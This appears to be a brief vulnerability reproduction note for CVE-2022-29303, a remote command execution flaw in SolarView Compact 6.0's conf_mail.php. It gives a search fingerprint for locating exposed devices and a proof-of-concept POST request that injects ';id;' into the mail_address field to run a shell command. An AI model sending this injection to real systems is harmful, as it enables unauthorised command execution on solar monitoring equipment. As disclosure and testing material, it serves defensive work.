 # SolarView Compact conf_mail.php Remote command execution vulnerability CVE-2022-29303

## Vulnerability Description

SolarView Compact conf_mail.php has a remote command execution vulnerability. The attacker can obtain server permissions by constructing special requests.

## Vulnerability Impact

 <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SolarView Compact 6.0</span>

## Network surveying and mapping

 <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="SolarView Compact" && title=="Top"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72.png)

Verify POC

```php
POST /conf_mail.php
  
mail_address=%3Bid%3B&button=%83%81%81%5B%83%8B%91%97%90M 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1654151685879-7d381c6a-c69d-4837-b57f-691e6303557f.png)